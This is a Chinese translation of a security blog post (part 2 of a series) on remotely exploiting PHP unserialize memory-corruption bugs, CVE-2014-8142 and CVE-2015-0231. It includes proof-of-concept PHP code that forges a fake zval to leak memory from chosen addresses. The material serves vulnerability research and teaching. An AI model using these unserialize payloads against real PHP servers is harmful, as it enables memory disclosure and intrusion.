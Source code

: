 # PHP中的内存破坏漏洞利用（CVE-2014-8142和CVE-2015-0231）（连载之第二篇）

0x00 前言
=====

作者：Cigital公司的安全顾问Qsl1pknotp（Tim Michaud）

题目：Exploiting memory corruption bugs in PHP (CVE-2014-8142 and CVE-2015-0231) Part 2：Remote Exploitation

地址：http://www.inulledmyself.com/2015/02/exploiting-memory-corruption-bugs-in_23.html

上一部分中，我们找到了本地利用CVE-2014-8142和CVE-2015-0231的方法。在第二部分中，我们将进一步探讨漏洞的远程利用，并明确通过我们的方法到底能窃取到什么有用信息。本部分的研究是只针对CVE-2015-0231的，至于CVE-2014-8142的远程利用，其实读者完全可以根据第一部分中的概述，自己做一些修改来完成。

0x01 PHP中 “序列化”特性应用
=====

上一部分中我们讲到，Esser给出的代码可以泄露一个攻击者不可控的地址的数据。代码如下：

```
<?php
$data ='O:8:"stdClass":3:{s:3:"aaa";a:5:{i:0;i:1;i:1;i:2;i:2;s:39:"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";i:3;i:4;i:4;i:5;}s:3:"aaa";i:1;s:3:"ccc";R:5;}';
$x = unserialize($data);
var_dump($x);
?>

```

source:[StefanEsser_Original_LocalMemLeak.php](https://gist.github.com/tmm08a/686d3f78a44c8ea80fd0#file-stefanesser_original_localmemleak-php)

虽然上述代码是有用的，但是它没有达到我们期待的效果！我们想要的是远程泄露任意内存地址的数据，而不是基本上没什么作用的随机地址数据。为了做到这一点，我们需要找到一种方法来完成以下两个目标：

写任意数据（确保PHP不崩溃）

读任意数据（确保PHP不崩溃）

跟生活中的其他事情一样，一次只解决一个问题往往要容易一些。因此，我们首先从完成目标1开始做起。其实我们是可以做到写任何我们所需的数据的，因为发送的是自己的object对象。然而，我们需要的是找到方法来写有用的信息，如下是我们上一回中讲到的最后一个例子：

```
<?php

$fakezval = pack(
    'IIII',     //unsigned int
    0x08048000, //address to leak
    0x0000000f, //length of string
    0x00000000, //refcount
    0x00000006  //data type NULL=0,LONG=1,DOUBLE=2,BOOL=3,ARR=4,OBJ=5,STR=6,RES=7
);
//obj from original POC by @ion1c
$obj = 'O:8:"stdClass":4:{s:3:"aaa";a:5:{i:0;i:1;i:1;i:2;i:2;a:1:{i:0;i:1;}i:3;i:4;i:4;i:5;}s:3:"aaa";i:1;s:3:"ccc";R:5;s:3:"ddd";s:4:"AAAA";}';
$obj=unserialize($obj);

for($i = 0; $i < 5; $i++) { //this i value is larger than usually required
    $v[$i]=$fakezval.$i; //repeat to overwrite
}
//due to the reference being overwritten by our loop above, leak memory
echo $obj->ccc;
?>

```
